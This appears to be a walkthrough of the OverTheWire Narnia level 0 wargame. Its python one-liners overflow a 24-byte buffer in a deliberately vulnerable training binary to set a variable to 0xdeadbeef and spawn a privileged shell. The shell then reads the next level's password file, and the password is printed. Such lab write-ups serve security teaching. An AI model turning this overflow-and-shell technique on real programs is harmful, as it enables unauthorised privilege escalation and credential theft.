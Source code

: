 Challenge URL is <a href="http://www.overthewire.org/wargames/narnia/narnia0.shtml">HERE</a>

<<CHALLENGE_CONTENT
Level 0

The password for this level is the same as the username. Use SSH to login.

CHALLENGE_CONTENT
	- The program is located at /narnia/narnia0
	- It seems to be a buffer overflow challenge
	- Given the source code at /narnia/narnia0.c, I can clearly see the buffer is 24 characters long.

	- Try at 20 characters, seeing 00 (\0 or end of string) at the end of 'val' value
	narnia0@melissa:/narnia$ python -c 'print "b"*20' | ./narnia0 
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: bbbbbbbbbbbbbbbbbbbb
	val: 0x41414100
	WAY OFF!!!!

	- Putting the correct value backward (for little-endian cpu architecture), to pass the check.
	narnia0@melissa:/narnia$ python -c 'print "b"*20+"\xef\xbe\xad\xde"' | ./narnia0 
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: bbbbbbbbbbbbbbbbbbbbﾭ
	val: 0xdeadbeef
	narnia0@melissa:/narnia$ 

	- It now seems to pass the check, but with pipe('|'), it immediately sends out end of file (EOF) to terminate the opening shell.
	To bypass it, use 'cat' command to re-open STDIN once again after python finish sending data.

	narnia0@melissa:/narnia$ (python -c 'print "b"*20+"\xef\xbe\xad\xde"';cat ) | ./narnia0 
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: bbbbbbbbbbbbbbbbbbbbﾭ
	val: 0xdeadbeef
	ls
	narnia0    narnia1    narnia2	 narnia3    narnia4    narnia5	  narnia6    narnia7	narnia8
	narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c	narnia8.c
	id
	uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
	cat /etc/narnia_pass/narnia1
	efeidiedae

